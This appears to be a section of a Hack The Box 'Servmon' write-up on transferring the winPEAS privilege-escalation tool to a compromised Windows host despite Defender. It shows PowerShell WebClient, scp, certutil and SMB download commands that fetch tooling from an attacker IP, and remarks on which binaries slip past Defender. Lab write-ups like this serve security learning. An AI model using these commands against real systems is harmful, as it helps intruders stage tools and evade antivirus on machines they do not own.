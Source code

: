# File transfer on Windows (with Defender enabled)

### scp on Windows

Since OpenSSH is installed and running we can make use of the installed `scp` client, to connect to Kali and download the file

```shell
nadine@SERVMON C:\Users\Nadine\Downloads>scp root@10.10.14.27:~/HTB/Servmon/winPEAS.exe winPEAS.exe
root@10.10.14.27's password:
winPEAS.exe                                                                                                         100%  226KB 202.0KB/s   00:01     

nadine@SERVMON C:\Users\Nadine\Downloads>dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Users\Nadine\Downloads

02/09/2020  08:12    <DIR>          .
02/09/2020  08:12    <DIR>          ..
02/09/2020  08:12           231,424 winPEAS.exe
               1 File(s)        231,424 bytes
               2 Dir(s)  27,524,366,336 bytes free
```

### Powershell `Net.WebClient.DownloadFile` method

```shell
nadine@SERVMON C:\Users\Nadine\Downloads>powershell.exe "(New-Object Net.WebClient).DownloadFile('http://10.10.14.27/winPEAS.exe','C:\Users\Nadine\Downloads\winPEAS.exe')"

nadine@SERVMON C:\Users\Nadine\Downloads>dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Users\Nadine\Downloads

02/09/2020  08:20    <DIR>          .
02/09/2020  08:20    <DIR>          ..
02/09/2020  08:20           231,424 winPEAS.exe
               1 File(s)        231,424 bytes
               2 Dir(s)  27,523,268,608 bytes free
```

## (Partly) unsuccessful methods

### certutil

Pity this didn't work. certutil used to work pretty well across a whole range of Windows versions.

```shell
nadine@SERVMON C:\Users\Nadine\Downloads>certutil -f -split -urlcache http://10.10.14.27/winPEAS.exe winPEAS.exe
Access is denied.
```

### Impacket's **smbserver.py**

This works only if the file in question passes Defender's checks. While searching for a working [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) binary, I stumbled across some that worked and some that didn't.

```shell
nadine@SERVMON C:\Users\Nadine\Downloads>copy \\10.10.14.27\servmon\winPEAS.exe .
        1 file(s) copied.

nadine@SERVMON C:\Users\Nadine\Downloads>copy \\10.10.14.27\servmon\winPEASany.exe .
Operation did not complete successfully because the file contains a virus or potentially unwanted software.
        0 file(s) copied.
```

